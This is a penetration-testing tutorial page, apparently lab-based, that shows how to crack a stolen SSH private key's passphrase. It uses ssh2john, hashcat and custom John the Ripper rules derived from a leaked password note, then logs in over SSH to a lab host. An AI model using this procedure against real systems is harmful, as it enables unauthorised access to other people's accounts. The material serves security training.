

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# SSH Private Key Passphrase

Even though SSH private keys should be kept confidential, there are many scenarios in which these files could be compromised.

For example, if one were to gain access to a web application via a vulnerability like _Directory Traversal_, they could read files on the system. They could then use this to retrieve a user's SSH private key. However, when they try to use it to connect to the system, they would be prompted for a passphrase. To gain access, they will need to crack the passphrase.

## Example

For this example, consider an attacker that has gained access to a compromised web server hosted on port 8080 with the credentials `user:121212`. The console shows the application is an instance of Tiny File Manager.

<figure><figcaption><p>Web application after login</p></figcaption></figure>

Once logged in to the application the attacker can download any files of interest. In this instance, `note.txt` and `id_rsa` seem to be the most interesting. After download to the attacker's machine they can be examined a bit:


```
Dave's password list:

Window
rickc137
dave
superdave
megadave
umbrella

Note to myself:
New password policy starting in January 2022. Passwords need 3 numbers, a capital letter and a special character
```


This note contains Dave's password list which could be incredibly useful. Potentially also helpful is that it informs the attacker of the password policy.

Now it is worth testing the `id_rsa` key to see if it provides further access. The target machine is also running SSH on port 2222 so the attacker can try to use the key there:

```shell-session
kali@kali:~/passwordattacks$ ssh -i id_rsa -p 2222 dave@192.168.50.201
...
Enter passphrase for key 'id_rsa':
```

Unfortunately the attacker is immediately prompted for a key passphrase. After trying all of the passwords from `note.txt` it seems none of them are the password for this key. This means it will have to be cracked.

The first step for cracking this hash is to transform it into a format that a cracking tool can work with. `ssh2john` (a transformation script from the JtR suite) is a tool that can handle this transformation.

First the hash is transformed and examined:


```shell-session
kali@kali:~/passwordattacks$ ssh2john id_rsa > ssh.hash

kali@kali:~/passwordattacks$ cat ssh.hash
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e7373682d6b65792d7631000000000a6165733235362d6374720000000662637279707400000018000000107059e78a8d3764ea1e883fcdf592feb7000000100000000100000197000000077373682...
```


The key piece of the output is the `$6` (second field following `$sshng`) which indicates the hash type. Hashcat's help mode can be used to help find the type of hash used on the passphrase.

```shell-session
kali@kali:~/passwordattacks$ hashcat -h | grep -i "ssh" 
...
  10300 | SAP CODVN H (PWDSALTEDHASH) iSSHA-1                 | Enterprise Application Software (EAS)
  22911 | RSA/DSA/EC/OpenSSH Private Keys ($0$)               | Private Key
  22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$)               | Private Key
  22931 | RSA/DSA/EC/OpenSSH Private Keys ($1, $3$)           | Private Key
  22941 | RSA/DSA/EC/OpenSSH Private Keys ($4$)               | Private Key
  22951 | RSA/DSA/EC/OpenSSH Private Keys ($5$)               | Private Key
```

The output indicates that `$6$` is mode 22921 for Hashcat.

It is now time to prepare a wordlist of passwords for cracking. Recall from note.txt that the current password policy requires all passwords to contain:

* Three numbers
* Capital letter
* Special character

Also recall from `note.txt` that there was a list of Dave's passwords. It is likely he just modified one of these to conform to the new policy. One of his passwords, `rickc137`, contained a number sequence of "137." Also of note is that the password Windows contained a capital first letter. Perhaps these clues can give a useful hint of how to create a rule list:


```
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```


The rule list will capitalize the first letter, add "137", and try a variety of special characters for each word in the list (creating multiple guesses for each word).

The next stage is to create a wordlist based on the passwords in `note.txt`:


```
Window
rickc137
dave
superdave
megadave
umbrella
```


Unfortunately, when this is all fed into Hashcat an exception is generated:

```shell-session
kali@kali:~/passwordattacks$ hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
hashcat (v6.2.5) starting
...

Hashfile 'ssh.hash' on line 1 ($sshng...cfeadfb412288b183df308632$16$486): Token length exception
No hashes loaded.
...
```

A bit of research suggests that modern private keys and their corresponding passphrases are created with the _aes-256-ctr_ cipher, which Hashcat's mode 22921 does not support.

Luckily, John the Ripper can handle this format. However, first the rule list must be added to JtR's configuration. The first step is it must be given a name, this will be used later to call the list of rules during runtime. This is done via the `[List.Rules:Example]` naming convention. In this example the rule list will be called `sshRules`:


```
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```


From here the rules must be added to the configuration:


```shell-session
kali@kali:~/passwordattacks$ sudo sh -c 'cat /home/kali/passwordattacks/JtRssh.rule >> /etc/john/john.conf'
```


At this point, JtR can be used with the rule-set via the command:

```
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

Which results in the cracking of the hash:

```shell-session
kali@kali:~/passwordattacks$ john --wordlist=ssh.passwords --rules=sshRules ssh.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Umbrella137!     (?)     
1g 0:00:00:00 DONE (2022-05-30 11:19) 1.785g/s 32.14p/s 32.14c/s 32.14C/s Window137!..Umbrella137#
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Thus allowing the attacker SSH access:

```shell-session
kali@kali:~/passwordattacks$ ssh -i id_rsa -p 2222 dave@192.168.50.201
Enter passphrase for key 'id_rsa':
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

0d6d28cfbd9c:~$
```
